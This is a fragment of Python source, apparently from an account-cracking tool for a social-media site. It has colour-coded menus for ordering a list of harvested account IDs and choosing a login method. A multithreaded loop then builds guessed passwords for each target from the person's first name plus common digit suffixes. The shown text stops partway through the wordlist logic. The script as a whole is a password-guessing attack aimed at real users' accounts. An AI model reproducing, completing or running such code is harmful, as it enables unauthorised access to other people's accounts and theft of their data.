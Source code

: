 def setting():
    print("\033[1;37m[ 1 ] FAST")
    print("\033[1;37m[ 2 ] SLOW[BEST]")
    hu = input('\033[97;1m\033[92;1m\033[97;1mCHOOSE :\033[92;1m ')
    if hu in ['1','01']:
        for tua in sorted(id):
            id2.append(tua)
    elif hu in ['30','030']:
        muda=[] 
        for bacot in sorted(id):
            muda.append(bacot)
        bcm=len(muda)
        bcmi=(bcm-1)
        for xmud in range(bcm):
            id2.append(muda[bcmi])
            bcmi -=1
    elif hu in ['2','02']:
        for bacot in id:
            xx = random.randint(0,len(id2))
            id2.insert(xx,bacot)
    else:
        for bacot in id:
            xx = random.randint(0,len(id2))
            id2.insert(xx,bacot)
    print("\033[1;37m[ 1 ] METHOD")
    hc = input('\033[97;1m[\033[92;1m•\033[97;1m] CHOOSE : ')
    if hc in ['1','01']:
        method.append('mobile')
    elif hc in ['2','02']:
        method.append('free')
    else:
        method.append('mobile')
    passwrd()
    exit() 
#-------------------[ BAGIAN-WORDLIST ]------------#
def passwrd():
    print("")
    print('\033[1;37m-----------------------------------------------')
    print('Total IDs  BT:' +str(len(id)))
    print('\033[1;37m-----------------------------------------------')
    with tred(max_workers=30) as pool:
        for yuzong in id2:
            idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
            frs = nmf.split(' ')[0]
            pwv = []
            if len(nmf)<6:
                if len(frs)<3:
                    pass
                else:
                    pwv.append(frs+'1212')
                    pwv.append(frs+'123')
                    pwv.append(frs+'1234')
                    pwv.append(frs+'12345')
                    pwv.append(frs+'123456')
                    pwv.append(frs+'1122')
                    pwv.append(frs+'112233')
                    pwv.append(frs+frs)
                    pwv.append(frs+'123@')
                    pwv.append(frs+'1234567')
                    pwv.append(frs+'12345678')   
                    pwv.append(frs+'123456789')   
                    pwv.append(frs+'1234567890') 
            else:
                if len(frs)<3: